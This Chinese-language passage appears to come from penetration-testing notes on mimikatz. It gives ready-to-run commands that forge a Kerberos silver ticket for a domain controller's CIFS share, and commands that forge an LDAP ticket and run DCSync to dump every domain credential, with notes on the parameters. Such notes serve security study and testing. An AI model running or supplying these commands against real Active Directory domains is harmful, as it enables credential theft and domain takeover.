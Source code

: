 ![](../../../assets/img/Security/安全工具/mimikatz/1.png)

然后将生成白银票据注入到内存中,并查看票据生成情况。查看目标的文件共享服务成功：
```bash
kerberos::golden /domain:ffffffff0x.com /sid:S-1-5-21-1112871890-2494343973-3486175548 /target:WIN-A5GPDCPJ7OT.ffffffff0x.com /rc4:f9ca454a3544172034a8666a79eda95e /service:cifs /user:test /ptt

# 这里的 cifs 是指的文件共享服务，有了 cifs 服务权限，就可以访问域控制器的文件系统
```

访问测试

![](../../../assets/img/Security/安全工具/mimikatz/2.png)

**例子:DCSync**

有 LDAP 特权情况下，可以实现 DCSync

```bash
mimikatz "kerberos::golden /domain:<域名> /sid:<域 SID> /target:<目标服务器主机名> /service:LDAP /rc4:<NTLM Hash> /user:krbtgt /ptt" "lsadump::dcsync /domain:test.com /all /csv" exit
```
- 只能在域内计算机上运行，不支持域外
- /sid 表示域的 sid, 任一域用户的 sid 去除最后一位就是域的 sid
- /rc4 表示计算机帐户的 NTLM hash
- /user:krbtgt 表示伪造成用户 krbtgt，生成票据
